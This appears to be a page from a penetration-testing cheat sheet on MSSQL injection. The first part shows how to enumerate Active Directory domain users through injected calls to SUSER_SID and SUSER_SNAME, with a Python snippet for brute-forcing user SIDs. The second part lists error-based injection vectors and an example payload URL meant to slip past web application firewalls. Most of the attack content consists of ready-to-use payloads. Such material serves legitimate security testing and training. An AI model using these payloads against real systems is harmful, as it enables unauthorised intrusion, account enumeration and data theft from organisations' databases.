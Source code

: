 # MSSQL Injection

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>

## Active Directory enumeration

It may be possible to **enumerate domain users via SQL injection inside a MSSQL** server using the following MSSQL functions:

* **`SELECT DEFAULT_DOMAIN()`**: Get current domain name.&#x20;
* **`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**: If you know the name of the domain (_DOMAIN_ in this example) this function will return the **SID of the user Administrator** in hex format. This will look like `0x01050000000[...]0000f401`, note how the **last 4 bytes** are the number **500** in **big endian** format, which is the **common ID of the user administrator**.\
  This function will allow you to **know the ID of the domain** (all the bytes except of the last 4).
* **`SUSER_SNAME(0x01050000000[...]0000e803)`** : This function will return the **username of the ID indicated** (if any), in this case **0000e803** in big endian == **1000** (usually this is the ID of the first regular user ID created). Then you can imagine that you can brute-force user IDs from 1000 to 2000 and probably get all the usernames of the users of the domain. For example using a function like the following one:

```python
def get_sid(n):
	domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
	user = struct.pack('<I', int(n))
	user = user.hex()
	return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```

## **Alternative Error-Based vectors**

Error-based SQL injections typically resemble constructions such as `+AND+1=@@version--` and variants based on the «OR» operator. Queries containing such expressions are usually blocked by WAFs. As a bypass, concatenate a string using the %2b character with the result of specific function calls that trigger a data type conversion error on sought-after data.

Some examples of such functions:

* `SUSER_NAME()`
* `USER_NAME()`
* `PERMISSIONS()`
* `DB_NAME()`
* `FILE_NAME()`
* `TYPE_NAME()`
* `COL_NAME()`

Example use of function `USER_NAME()`:

```
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
